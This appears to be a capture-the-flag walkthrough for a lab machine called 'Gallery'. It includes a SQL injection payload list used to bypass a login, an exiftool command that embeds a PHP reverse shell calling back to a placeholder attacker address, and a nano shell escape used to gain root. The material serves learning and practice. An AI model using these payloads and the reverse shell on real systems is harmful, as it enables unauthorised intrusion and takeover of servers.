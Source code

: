 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```


# GALLERY

![](gitbook/cybersecurity/images/Pasted%20image%2020241007144603.png)

## Enumeration

```ad-info
**OPEN PORTS**:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007144658.png)
**FUZZING FOR PORT 80**:
![](gitbook/cybersecurity/images/Pasted%252520image%25252020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007150803.png) Seems like this login page is vulnerable to \[\[SQL INJECTION (SQLI)|SQLI]] So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007152753.png)

Let's launch the attack: ![](gitbook/cybersecurity/images/Pasted%20image%2020241007152809.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241007152818.png) Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007153644.png)

We can refer to our \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

````ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
````

As we can see, file is an jpeg now:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007161320.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020241007161325.png) ![](gitbook/cybersecurity/images/Pasted%20image%2020241007161334.png) And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a \[\[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this: ![](gitbook/cybersecurity/images/Pasted%20image%2020241007163005.png) seems like the password for user mike, let's su to mike:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007163600.png) Now we are in as mike, let's look at mike's privileges:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007163724.png) We found a rootkit.sh script, let's look at it:

![](gitbook/cybersecurity/images/Pasted%20image%2020241007163807.png) As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown: ![](gitbook/cybersecurity/images/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens: ![](gitbook/cybersecurity/images/Pasted%20image%2020241007165053.png)

Let's enter the read option: ![](gitbook/cybersecurity/images/Pasted%20image%2020241007164217.png) Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](gitbook/cybersecurity/images/Pasted%20image%2020241007165137.png)

![](gitbook/cybersecurity/images/Pasted%20image%2020241007165154.png)

And just like that, we got root access!
